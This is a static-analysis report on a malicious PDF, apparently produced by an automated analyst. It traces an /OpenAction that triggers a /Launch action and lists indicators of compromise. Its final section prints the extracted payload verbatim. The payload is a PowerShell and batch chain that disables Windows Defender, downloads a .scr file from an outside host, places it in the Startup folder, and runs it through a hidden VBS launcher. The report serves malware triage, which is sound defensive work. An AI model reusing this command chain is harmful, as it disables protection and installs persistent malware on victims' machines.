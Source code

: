 ## Final Report: Static Analysis of PDF File

### Original Request
The task was to perform a comprehensive static analysis of a PDF file to identify any signs of malicious activity, suspicious content, embedded threats, and potential security vulnerabilities using whitelisted shell commands.

### Commands Executed and Key Outputs

1. **Initial Keyword Scan:**
   - **Command:** `python3 pdfid.py 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`
   - **Output:** Non-zero counts for `/OpenAction`, `/Launch`, and `/ObjStm`.

2. **Inspecting Object 4 (OpenAction):**
   - **Command:** `python3 pdf-parser.py -f -O -c -o 4 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`
   - **Output:** Object 4 contains a `/Launch` action referencing object 7.

3. **Inspecting Object 7 (Launch Details):**
   - **Command:** `python3 pdf-parser.py -f -O -c -o 7 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`
   - **Output:** PowerShell command to disable Windows Defender, download a file from a URL, and execute it.

### Accumulated Findings

1. **/Launch Action:**
   - **Description:** Object 4 contains a `/Launch` action.
   - **Source:** Output of `pdf-parser.py -f -O -c -o 4`.
   - **Details:** References object 7, which contains the execution details.
   - **Reasoning:** Launch actions are used to execute external applications, which is a common technique for executing malicious payloads.
   - **Severity Score:** Critical

2. **PowerShell Command in Object 7:**
   - **Description:** Object 7 contains a PowerShell command.
   - **Source:** Output of `pdf-parser.py -f -O -c -o 7`.
   - **Details:** The command disables Windows Defender, downloads a file from `https://badreddine67.000webhostapp.com/Theme_Smart.scr`, and executes it.
   - **Reasoning:** This command sequence is highly indicative of malicious activity, aiming to bypass security measures and execute a potentially harmful payload.
   - **Severity Score:** Critical

### Indicators of Compromise (IoCs)

- **URL:** `https://badreddine67.000webhostapp.com/Theme_Smart.scr`
- **File Name:** `Theme_Smart.scr`
- **Script Name:** `msd89h2j389uh.bat`

### Potential Attack Chain

1. **User opens the PDF.**
2. **/OpenAction triggers a /Launch action.**
3. **/Launch action executes a PowerShell command.**
4. **PowerShell command disables Windows Defender, downloads a malicious file, and executes it.**

### Obfuscation/Evasion Techniques Observed

- **Use of PowerShell:** A common technique to execute commands and scripts without direct user interaction.
- **Disabling Windows Defender:** An attempt to evade detection by disabling real-time protection.

### Overall Threat Assessment

- **Verdict:** Malicious
- **Confidence Score:** 100%

### Executive Summary

The PDF file analyzed contains a critical security threat. It uses a /Launch action to execute a PowerShell command that disables Windows Defender, downloads a potentially malicious file, and executes it. This behavior is consistent with known malicious tactics aimed at compromising a system. The presence of a direct download and execution command, along with the disabling of security features, confirms the malicious intent of the PDF.

### Commands Executed

1. `python3 pdfid.py 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`
2. `python3 pdf-parser.py -f -O -c -o 4 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`
3. `python3 pdf-parser.py -f -O -c -o 7 87c740d2b7c22f9ccabbdef412443d166733d4d925da0e8d6e5b310ccfc89e13.pdf`

This concludes the static analysis of the PDF file. The findings indicate a high risk of malicious activity, and appropriate security measures should be taken to mitigate this threat.
### Decoded / Extracted Code Artefacts

---- CODE_BLOCK:7/0 ----
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true (New-Object Net.WebClient).DownloadFile('https://badreddine67.000webhostapp.com/Theme_Smart.scr', 'Theme_Smart.scr')" >> msd89h2j389uh.bat &@echo move "%TMP%\Theme_Smart.scr" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup" >> msd89h2j389uh.bat &@echo del "%~f0" >> msd89h2j389uh.bat &@echo Set oShell = CreateObject ("Wscript.Shell") >> encrypted.vbs &@echo Dim strArgs >> encrypted.vbs &@echo strArgs = "cmd /c msd89h2j389uh.bat" >> encrypted.vbs &@echo oShell.Run strArgs, 0, false >> encrypted.vbs & encrypted.vbs &dEl encrypted.vbs
